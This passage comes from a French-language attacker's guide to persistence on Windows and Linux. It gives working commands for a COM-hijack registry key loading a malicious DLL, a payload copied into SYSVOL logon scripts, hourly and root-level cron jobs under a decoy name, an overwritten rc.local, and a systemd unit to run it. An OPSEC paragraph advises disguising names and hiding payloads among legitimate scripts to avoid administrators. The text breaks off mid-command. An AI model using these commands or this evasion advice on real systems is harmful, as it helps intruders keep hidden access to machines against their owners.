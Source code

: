 ```
reg add "HKCU\Software\Classes\CLSID\{GUID}\InprocServer32" /ve /t REG_SZ /d "C:\Windows\Temp\malicious.dll" /f
```

Les scripts de connexion et les stratégies de groupe peuvent être utilisés dans les environnements de domaine pour exécuter des scripts lors de la connexion des utilisateurs :

```
copy payload.ps1 "\\domaine\SYSVOL\domaine\Policies\{GUID}\User\Scripts\Logon\"
```

## Techniques de persistance Linux

Les systèmes Linux offrent leurs propres mécanismes de persistance, souvent liés au système d'initialisation et aux scripts de démarrage.

### Tâches Cron

Le système Cron permet de planifier l'exécution de commandes à intervalles réguliers. C'est l'un des mécanismes de persistance les plus couramment utilisés sous Linux.

Pour ajouter une tâche Cron qui exécute une charge utile toutes les heures :

```
(crontab -l 2>/dev/null; echo "0 * * * * /tmp/payload.sh") | crontab -
```

Pour une persistance plus discrète, on peut cibler les répertoires cron système :

```
echo "*/30 * * * * root /tmp/payload.sh" > /etc/cron.d/system-update
```

Cette approche crée une tâche qui s'exécute toutes les 30 minutes avec les privilèges root, sous un nom plausible.

Du point de vue OPSEC, les tâches Cron sont relativement bien surveillées dans les environnements sécurisés. Les administrateurs peuvent vérifier régulièrement les tâches planifiées avec des commandes comme `crontab -l` ou en examinant les fichiers dans `/etc/cron.*`. Pour minimiser les risques de détection, il est recommandé d'utiliser des noms plausibles, d'éviter les exécutions trop fréquentes, et de dissimuler la charge utile parmi les scripts système légitimes.

### rc.local et scripts d'initialisation

Le fichier `/etc/rc.local` (sur les systèmes qui l'utilisent encore) est exécuté à la fin du processus de démarrage. Il peut être utilisé pour lancer des commandes au démarrage du système :

```
echo "#!/bin/bash" > /etc/rc.local
echo "/tmp/payload.sh &" >> /etc/rc.local
chmod +x /etc/rc.local
```

Sur les systèmes plus récents utilisant systemd, ce fichier peut ne pas être exécuté par défaut. Dans ce cas, il faut créer un service systemd pour l'activer :

```
cat > /etc/systemd/system/rc-local.service << EOF
[Unit]
Description=/etc/rc.local Compatibility
ConditionPathExists=/etc/rc.local

[Service]
Type=forking
ExecStart=/etc/rc.local start
TimeoutSec=0
StandardOutput=tty
RemainAfterExit=yes
SysVStartPriority=99

```